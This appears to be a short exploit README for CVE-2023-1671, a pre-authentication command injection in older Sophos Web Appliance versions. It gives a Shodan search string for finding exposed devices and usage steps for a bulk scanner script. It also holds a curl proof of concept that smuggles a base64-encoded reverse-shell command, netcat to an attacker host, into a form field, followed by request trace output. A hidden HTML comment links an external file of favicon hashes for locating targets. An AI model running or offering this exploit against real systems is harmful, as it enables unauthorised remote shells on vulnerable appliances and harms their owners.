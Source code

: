 ## CVE-2023-1671
![](https://img.shields.io/static/v1?label=Product&message=Sophos%20Web%20Appliance&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=older%20than%20version%204.3.10.4&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Pre-auth%20Command%20Injection&color=red)


- Shodan dork:
```
title:"Sophos Web Appliance"
```
<!-- Here is an Easter Egg for inquiring minds
shodan-favicon-hashes - https://mega.nz/file/ctdH3LAB#lnE0GUkfCacwA18wR1VQI6TxIJ4OKM_6YKQdpHY4GN0
-->

### Usage
```
chmod +x scanner.sh
bash scanner.sh target.txt
```
### POC
```
curl -k --trace-ascii % "https://target_ip_addr/index.php?c=blocked&action=continue" -d "args_reason=filetypewarn&url=$RANDOM&filetype=$RANDOM&user=$RANDOM&user_encoded=$(echo -n "';nc -e /bin/sh attacker_ip_addr 4444 #" | base64)"

=> Send header, 184 bytes (0xb8)
0000: POST /index.php?c=blocked&action=continue HTTP/1.1
0034: Host: XX.XX.XX.XX
004a: User-Agent: curl/7.88.1
0063: Accept: */*
0070: Content-Length: 120
0085: Content-Type: application/x-www-form-urlencoded
00b6:
=> Send data, 120 bytes (0x78)
0000: args_reason=filetypewarn&url=16625&filetype=5831&user=4525&user_
0040: encoded=**************************
```
